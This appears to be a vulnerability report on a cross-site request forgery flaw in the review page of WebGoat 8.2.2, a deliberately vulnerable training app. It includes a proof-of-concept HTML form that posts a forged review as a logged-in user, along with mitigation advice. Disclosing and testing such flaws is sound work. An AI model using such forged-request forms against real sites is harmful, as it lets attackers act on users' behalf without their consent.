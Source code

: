 # WebGoat. Review page functionality is vulnerable for CSRF
Review functionality on the page "/WebGoat/start.mvc#lesson/CSRF.lesson/3" is vulnerable for CSRF. 
It is possible to post an arbitrary review comment on behalf of a logged-in user by tricking the user to do some simple actions and forging their request to the review component. 

## Requirements Violation
The following requirements are violated: 
- [Application Security Requirements v. 4.0] [Req. 8.3.1] A unique token should be added to any request that causes modification of data.
- Best Security Practices.

## Business Impact
Unauthorised access to the system.

## Pre-requisites 
None

## Steps to Reproduce
1. Craft an HTML page including the following form:
```html
    <form accept-charset="UNKNOWN" id="csrf-review" method="POST" successcallback="" action="http://www.webgoat.local:8080/WebGoat/csrf/review">
        <input id="reviewText" name="reviewText" type="text" value="The worst app I've ever seen!">
        <input id="reviewStars" name="stars" type="text" value="1">
        <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
        <input type="submit" name="submit" value="Do me a favour">
    </form>
```
2. Login to WebGoat application in a web browser.
3. Open the page created on step 1 in the browser you are logged-in. 
4. Push the "Do me a favour" button. 
5. Open [review page](http://www.webgoat.local:8080/WebGoat/start.mvc#lesson/CSRF.lesson/3)
6. Find the review comment "The worst app I've ever seen!" posted from your account.

## Mitigation Recommendations
1. Implement Anti-CSRF tokens for the requests which cause modification of data. Use implementation from the web framework.  
2. See [cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html).

## Additional Information
**Version**: 8.2.2  
**CVSS**: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N